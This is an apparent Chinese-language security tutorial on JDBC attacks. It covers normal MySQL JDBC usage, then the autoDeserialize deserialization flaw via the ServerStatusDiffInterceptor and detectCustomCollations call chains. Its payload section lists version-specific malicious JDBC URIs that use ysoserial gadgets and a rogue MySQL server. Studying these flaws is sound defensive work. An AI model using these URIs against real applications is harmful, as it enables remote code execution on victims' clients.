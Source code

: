 # JDBC攻击

JDBC（Java DataBase Connectivity），是Java程序访问数据库的标准接口。常用的关系数据库包括：付费的（`Oracle、SQL Server、DB2、Sybase`）、开源的（`MySQL、PostgreSQL、Sqlite`）。JDBC接口通过JDBC驱动来访问数据库，而JDBC驱动由各个数据库厂商提供，也就是不同的数据库对应有各自的驱动。使用JDBC的好处就是不需要根据不同的数据库做开发，拥有统一的接口。

## JDBC应用

假如使用MySQL的JDBC驱动，只需要在maven中引入对应的jar包。scope设置为runtime，因为编译时并不需要此jar包，只在运行期使用。
```
<dependency>
    <groupId>mysql</groupId>
    <artifactId>mysql-connector-java</artifactId>
    <version>5.1.47</version>
    <scope>runtime</scope>
</dependency>
```

使用jdbc连接mysql中student数据库（mysql驱动后面跟的可选扩展参数包括`loadDataLocal、requireSSL、socksProxyHost、useAsyncProtocol、useServerPrepStmts、allowUrlInLoadLocal`等）
```java
String JDBC_URL = "jdbc:mysql://localhost:3306/student?requireSSL=false";
String JDBC_USER = "root";
String JDBC_PASSWORD = "password";
try (Connection conn = DriverManager.getConnection(JDBC_URL, JDBC_USER, JDBC_PASSWORD)) { // 获取数据库连接
    try (Statement stmt = conn.createStatement()) {
        try (ResultSet rs = stmt.executeQuery("SELECT id, name FROM students WHERE id=1")) {
            while (rs.next()) { // 获取列数据
                int id = rs.getInt(1); // ResultSet 索引从1开始，而不是0
                String name = rs.getString(2);
            }
        }
    }
}
conn.close();
```

`Statement`容易引发SQL注入，想要完全避免SQL注入可以使用`PreparedStatement`，使用占位符的方式。
```java
try (Connection conn = DriverManager.getConnection(JDBC_URL, JDBC_USER, JDBC_PASSWORD)) {
    try (PreparedStatement ps = conn.prepareStatement("SELECT id, name FROM students WHERE id=?")) {
        ps.setObject(1, id);
        try (ResultSet rs = ps.executeQuery()) {
            while (rs.next()) {
                int id = rs.getInt("id");
                String name = rs.getString("name");
            }
        }
    }
}
```

## JDBC攻击——反序列化

上面提到mysql驱动的URL可选扩展参数有很多，其中一个叫做`autoDeserialize`，如果配置为true，客户端会自动反序列化服务端返回的数据。mysql-connector-java.jar中的类`com/mysql/cj/jdbc/result/ResultSetImpl.class#getObject()`方法如下。如果autoDeserialize属性值为true，就会进行反序列化操作。
```java
byte[] data = this.getBytes(columnIndex);
if (!(Boolean)this.connection.getPropertySet().getBooleanProperty(PropertyKey.autoDeserialize).getValue()) {
    return data;
} else {
    Object obj = data;
    if (data != null && data.length >= 2) {
        ...
        try {
            ByteArrayInputStream bytesIn = new ByteArrayInputStream(data);
            ObjectInputStream objIn = new ObjectInputStream(bytesIn);
            obj = objIn.readObject();
            objIn.close();
            bytesIn.close();
        } 
}
```
但是默认情况下客户端不会调用getObject()方法。就像找反序列化调用链一样需要找到上层的调用。

### ServerStatusDiffInterceptor调用链

https://i.blackhat.com/eu-19/Thursday/eu-19-Zhang-New-Exploit-Technique-In-Java-Deserialization-Attack.pdf这篇给出的链条如下
```
com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor#postProcess/preProcess()
  com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor#populateMapWithSessionStatusValues()
    ResultSetUtil#resultSetToMap()
```
最终走到的resultSetToMap方法如下，调用了getObject()方法
```java
public static void resultSetToMap(Map mappedValues, ResultSet rs) throws SQLException {
    while (rs.next()) {
        mappedValues.put(rs.getObject(1), rs.getObject(2));
    }
}
```
`ServerStatusDiffInterceptor`实现自QueryInterceptor接口，它对应扩展参数queryInterceptors。那么就可以构造一个恶意的JDBC URI来触发反序列化。
```
jdbc:mysql://attacker/db?queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&autoDeserialize=true
```
### detectCustomCollations调用链

这条链最终也是走到resultSetToMap方法，核心是`com.mysql.jdbc.ConnectionImpl#buildCollationMapping()`方法，如果满足版本大于4.1.0并且detectCustomCollations值为true，就会调用到resultSetToMap方法，最终进行反序列化操作。
```java
if (this.versionMeetsMinimum(4, 1, 0) && this.getDetectCustomCollations()) { // 版本大于4.1.0，detectCustomCollations值为true
    java.sql.Statement stmt = null;
    ResultSet results = null;

    try {
        sortedCollationMap = new TreeMap();
        customCharset = new HashMap();
        customMblen = new HashMap();
        stmt = this.getMetadataSafeStatement();

        try {
            results = stmt.executeQuery("SHOW COLLATION");
            if (this.versionMeetsMinimum(5, 0, 0)) {
                Util.resultSetToMap(sortedCollationMap, results, 3, 2); // 调用resultSetToMap()
        }...
}
```

因为是服务端攻击客户端，还需要一个恶意的mysql服务端。这部分可以用工具: https://github.com/fnmsd/MySQL_Fake_Server

恶意mysql服务器的核心思路是将反序列化数据存储在对应的数据表中对应字段中。以detectCustomCollations调用链为例`Util.resultSetToMap(sortedCollationMap, results, 3, 2);`会对第三个字段进行获取，那么就需要创建一张表，列出至少三个字段，并将ysoserial生成的反序列化数据赋值给第三个字段。

### payload

另外由于不同版本jdbc扩展参数可能存在差异，工具中也给出了不同版本下的利用URI
```
# 8.x
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_JRE8u20_calc

# 6.x
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_JRE8u20_calc

# 5.1.11及以上的5.x版本 
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_JRE8u20_calc

jdbc:mysql://127.0.0.1:3306/test?detectCustomCollations=true&autoDeserialize=true&user=yso_JRE8u20_calc

Ps: 如果是读文件需要加maxAllowedPacket=655360

# 5.1.10及以下的5.1.X版本: ServerStatusDiffInterceptor同5.x版本，但是需要连接后执行查询。detectCustomCollations不可用

# 5.0.x: 不存在ServerStatusDiffInterceptor，也不存在detectCustomCollations
```

## JDBC攻击——文件读取
这篇文章已经说的很全了，漏洞定位`com.mysql.jdbc.MysqlIO#sendFileToServer`
https://lorexxar.cn/2020/01/14/css-mysql-chain/#Load-data-infile



